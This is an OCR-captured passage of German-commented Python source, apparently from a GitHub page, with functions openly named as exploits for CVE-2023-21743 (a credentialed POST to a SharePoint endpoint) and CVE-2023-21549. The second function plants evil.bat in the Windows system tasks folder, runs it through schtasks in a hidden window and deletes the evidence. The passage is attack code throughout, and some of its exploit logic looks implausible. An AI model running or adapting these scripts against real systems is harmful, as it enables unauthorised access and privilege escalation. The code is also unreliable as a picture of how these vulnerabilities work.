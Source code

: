     except Exception as e:
        print(f"[FEHLER] CVE-2023-21674: Fehler: {e}")

def exploit_cve_2023_21743(target_url, username, password, payload_data="exploit_payload"):
    """Führt den Exploit für CVE-2023-21743 aus."""
    try:
        vulnerable_endpoint = f"{target_url}/_layouts/15/start.aspx"
        payload = {
            "Content-Type": "application/x-www-form-urlencoded",
            "data": payload_data
        }
        response = requests.post(vulnerable_endpoint, auth=HTTPBasicAuth(username, password), data=payload)

        if response.status_code == 200:
            print("[INFO] CVE-2023-21743: Exploit erfolgreich ausgeführt!")
            print(f"[INFO] CVE-2023-21743: Antwort: {response.text.strip()}")
        else:
            print("[FEHLER] CVE-2023-21743: Exploit fehlgeschlagen!")
    except Exception as e:
        print(f"[FEHLER] CVE-2023-21743: Fehler: {e}")

def exploit_cve_2023_21549():
    """Führt den Exploit für CVE-2023-21549 aus."""
    try:
        temp_file = tempfile.NamedTemporaryFile(delete=False)
        temp_file_path = temp_file.name
        temp_file.write(b'whoami > C:\\Windows\\Temp\\cve_2023_21549_output.txt')
        temp_file.close()

        command = f'fsutil resource setautoreset true C:\\ && copy /y "{temp_file_path}" C:\\Windows\\System32\\tasks\\evil.bat && schtasks /run /tn evil'
        subprocess.run(command, shell=True, check=True, creationflags=subprocess.CREATE_NO_WINDOW)

        time.sleep(2)

        output_path = 'C:\\Windows\\Temp\\cve_2023_21549_output.txt'

        if os.path.exists(output_path):
          with open(output_path, 'r') as f:
              output = f.read()
              print(f"[INFO] CVE-2023-21549 Ausgabe: {output.strip()}")

          os.remove(output_path)
          os.remove('C:\\Windows\\System32\\tasks\\evil.bat')
          os.remove(temp_file_path)

        else:
            print("[FEHLER] CVE-2023-21549: Ausgabe konnte nicht gefunden werden.")

    except subprocess.CalledProcessError as e:
        print(f"[FEHLER] CVE-2023-21549: Fehler bei der Befehlsausführung: {e}")
    except Exception as e:
        print(f"[FEHLER] CVE-2023-21549: Unerwarteter Fehler: {e}")

if __name__ == "__main__":
    required_modules = ['requests', 'argparse']
